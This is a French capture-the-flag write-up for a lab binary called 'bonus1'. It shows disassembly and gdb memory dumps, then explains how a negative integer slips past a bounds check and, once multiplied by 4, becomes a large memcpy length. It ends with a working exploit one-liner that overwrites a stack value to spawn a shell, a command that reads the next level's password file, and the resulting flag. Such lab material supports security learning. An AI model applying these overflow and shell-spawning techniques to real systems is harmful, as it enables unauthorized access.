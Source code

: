 Dans ce niveau l'executable `bonus1` n'a qu'une fonction `main(int ac, char **av)`

Apres plusieurs tests on voit qu'il lui faut 2 arguments

On va chercher a atteindre cet endroit 
```sh
0x0804848a      c744240480..   mov dword [var_4h], 0x8048580 ; [0x8048580:4]=0x2f006873 ; "sh"
0x08048492      c704248385..   mov dword [esp], str._bin_sh ; [0x8048583:4]=0x6e69622f ; "/bin/sh"
0x08048499      e8b2feffff     call sym.imp.exec
```
Le programme fait d'abord `nb = atoi(av[1])` puis une comparaison pour verifier que `nb <= 9`

Ensuite on a un appel a `memcpy(av[2], nb * 4)` et enfin une derniere cmp `0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)`

Notre but va etre de lui passer un nombre suffisant pour que `memcpy` copie `0x574f4c46` a `0x3c(%esp)`
```sh
Starting program: /home/user/bonus1/bonus1 4 $(python -c 'print "A" * 16')
Breakpoint 1, 0x08048478 in main ()
(gdb) x/20wx $esp
0xbffff6d0:	0xbffff6e4	0xbffff8fa	0x00000010	0x080482fd
0xbffff6e0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6f0:	0x41414141	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff700:	0xb7fed280	0x00000000	0x080484b9	0x00000004
0xbffff710:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
(gdb) x/wx $esp+0x3c
0xbffff70c:	0x00000004
```
Au niveau de la comparaison on voit nos 16 "A" copies et que l'adresse compare est a 44 char (40 + adresse)

Il faut donc que le programme copie 44 char mais notre max est a 9 en premier arg

Dans la memoire le premier bit est appele `bit de signe` donc a `0 si positif ou nul` et a `1 si negatif`

Faire `* 4` en binaire correspond a faire un decallage de 2 bits a gauche. ex: `1 = 0001 * 4 = 0100 = 4`

On veut ecrire 11 (car 44/4 = 11), le nombre 11 (systeme en 32 bits) en binaire = `0000.0000.0000.0000.0000.0000.0000.1011`

Donc si on veut faire 11 * 4 = `0000.0000.0000.0000.0000.0000.0010.1100 = 44`

Le plus petit negatif donc `int min` = `1000.0000.0000.0000.0000.0000.0000.0000` (rappel : 1er bit = bit de signe)

En sachant tout cela, multiplier par 4 un negatif proche du `int min` ferait disparaitre le bit de signe
```sh
1000.0000.0000.0000.0000.0000.0000.0000
            OU
1100.0000.0000.0000.0000.0000.0000.0000
```
On a donc qu'a 'ajouter' 11 a l'un de ces nombres = `1100.0000.0000.0000.0000.0000.0000.1011 = -1073741813`

Ce nombre passe la verification du retour d'atoi car < 9 et ensuite une fois multiplie par 4 en binaire on a donc `0000.0000.0000.0000.0000.0000.0010.1100` soit 44

Il nous reste plus qu'a copier nos 40 char + 0x574f4c46 pour la comparaison

`./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`

Enfin le `execve(/bin/sh)` s'execute on a plus qu'a `cat /home/user/bonus2/.pass`

Le flag sort  = `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`
